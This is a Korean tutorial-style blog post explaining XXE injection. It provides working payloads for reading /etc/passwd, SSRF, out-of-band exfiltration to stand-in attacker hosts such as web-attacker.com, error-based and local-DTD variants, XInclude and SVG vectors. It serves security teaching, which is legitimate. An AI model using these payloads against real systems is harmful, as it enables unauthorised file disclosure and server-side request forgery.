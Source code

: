 ```yaml
---
title: XXE
desc: What is XXE?
date: 2024-11-09
thumbnail: /posts/basic_skill/xxe/thumbnail.png
---
```

## What's XXE Injection?

![](/posts/basic_skill/xxe/0.png)

XXE 취약점은 XML을 사용하는 서비스에서 발생할 수 있는 취약점입니다.
XXE 공격이 이루어지는 방식은 XML을 Parsing해서 사용하는 서비스에 악의적인 XML 구문을 입력하여 공격자가 원하는 동작을 수행 시키는 방입니다. 
따라서 XML Parser가 존재하는 곳부터 영향력이 발생하게 되어 SSRF, RCE 등이 발생할 수 있으므로 위험한 취약점이라고 볼 수 있습니다.

---
## Background

### XML?

XML은 Extensible Markup Language의 약자입니다. 한마디로 다목적 마크업 언어이다.
XML은 인터넷이 연결된 서비스끼리 데이터를 용이하게 전달하기 위해 개발되었다.
XML은 웹사이트, 데이터베이스, SOAP 통신 프로토콜 등 많은 곳에서 사용된다.

XML의 자세한 정보
https://bobong.blog/post/Development/XML

---
## Basic Attack

### Exploiting XXE to retrieve files

XXE 취약점을 이용해서 서버에 존재하는 파일을 읽을 수 있습니다.

XML을 제출하여 유저의 이름으로 정보를 조회할 수 있는 상황을 가정해 봅시다.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<USER><name>bobong</name></USER>
```

/etc/passwd 파일을 외부 ENTITY에 정의하고 해당 ENTITY를 name 값에 사용합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<USER><name>&xxe;</name></USER>
```

서비스에 별다른 방어 수단이 존재하지 않는다면 아래와 같이 응답을 통해 /etc/passwd 값이 포함 될 수 있습니다.

```text
User Name : root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Exploiting XXE to perform SSRF attacks

XML의 ENTITY에서 URL를 통한 참조가 가능하기 때문에 SSRF가 발생할 수 있습니다.

아래와 같은 코드가 XML Parser를 통해 읽어지게 되면 내부 서버에서 직접 http요청을 하기 때문에 SSRF 취약점이 발생할 수 있습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://hacker.com/"> ]>
<USER><name>&xxe;</name></USER>
```

### Blind XXE

Blind XXE는 에플리케이션에서 XXE 취약점이 존재하지만 외부 ENTITY값을 반환하지 않는 경우에 발생합니다.  2가지 방법을 통해 Blind XXE 취약점을 공격할 수 있습니다.

**OAST & OOB**

Out of Band는 외부 채널을 이용하여 XXE 구문을 보내는 기법입니다.

아래 Interactsh는 무료로 OOB를 지원해줍니다.
https://app.interactsh.com/#/

아래는 기본적으로 OOB를 이용한 Blind XXE Injection을 하는 방법입니다.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

**Error-Basd XXE**

ENTITY 선언 과정 중 오류를 임의로 발생 시키는데, 발생 시키는 에러에 원하는 정보를 담아 읽는 방법 입니다. Error-Base XXE는 크게 두 가지 방법이 있습니다. 해당 방법들은 XML을 파싱하는 부분에서 에러 메세지를 보여주는지 확인 후 진행하면 좋습니다.

첫번째 방법은 `malicious.dtd` 파일을 작성하고 OOB 방식을 통해 DTD 파일을 참조 시켜 정보가 담긴 에러 메세지를 받는 방법입니다.

malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

두번째 방법으로는 OOB 방식이 막혀 사용할 수 없을 때 사용할 수 있습니다. XML Parser가 작동되는 시스템 내부에 존재하는 다른 DTD 파일을 참조해서 XXE 취약점을 발생시킵니다. 
예를 들어 `/usr/local/app/hi.dtd`가 존재하고, 해당 DTD 파일에는 `hello`라는 ENTITY가 선언되어 있다고 볼 때 `hello` ENTITY에 에러 발생 구문을 재선언하여 Exploit 할 수 있습니다.

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/hi.dtd">
<!ENTITY % hello '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
시스템 내부에 존재하는 DTD 파일을 탐지하는 방법은 존재할 수도 있는 DTD 파일 리스트를 가지고  Brute-force를 통해 확인할 수 있습니다.

DTD List
https://github.com/GoSecure/dtd-finder/tree/master/list

### XInclude XXE

XInclude는 XML 문서에서 다른 XML 문서나 일반 텍스트 파일을 포함할 수 있는 메커니즘을 제공하는 XML 확장입니다. 이를 통해 하나의 XML 문서에서 다른 XML 문서의 일부를 가져와 재사용할 수 있습니다.

XInclude XXE Payload

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### SVG XXE

SVG는 XML 포맷을 이용하여 구성되어있습니다. 따라서 SVG를 업로드 시킬 수 있는 곳이 있다면 XXE 취약점이 존재할 수 있습니다.

SVG XXE Payload

```xml
<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
		<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
			<text font-size="16" x="0" y="16">&xxe;</text>
		</svg>
```
---
## Reference
https://www.hahwul.com/cullinan/xxe/
https://portswigger.net/web-security/xxe
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

---
## Lab
https://gosecure.github.io/xxe-workshop/#0